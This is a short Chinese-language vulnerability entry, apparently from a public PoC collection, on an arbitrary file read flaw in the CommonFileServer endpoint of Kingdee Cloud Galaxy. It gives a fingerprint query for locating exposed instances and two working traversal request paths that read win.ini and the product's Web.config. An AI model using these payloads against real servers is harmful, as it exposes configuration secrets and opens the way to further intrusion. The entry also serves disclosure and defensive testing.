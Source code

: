 # 金蝶OA 云星空 CommonFileServer 任意文件读取漏洞

## 漏洞描述

金蝶OA 云星空 CommonFileServer接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件，进一步攻击服务器

## 漏洞影响

<a-checkbox checked>金蝶OA 云星空</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="金蝶云星空-管理中心"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1684495679897-2feb46d7-5571-44e5-b6d1-b5997d685a9f.png)

验证POC

```python
/CommonFileServer/c%3a%2fwindows%2fwin.ini
/CommonFileServer/C%3A%5CProgram%20Files%20%28x86%29%5CKingdee%5CK3Cloud%5CWebSite%5CWeb.config
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1684495701547-33614a2b-d201-49e4-be6e-b0dd7aee10c3.png)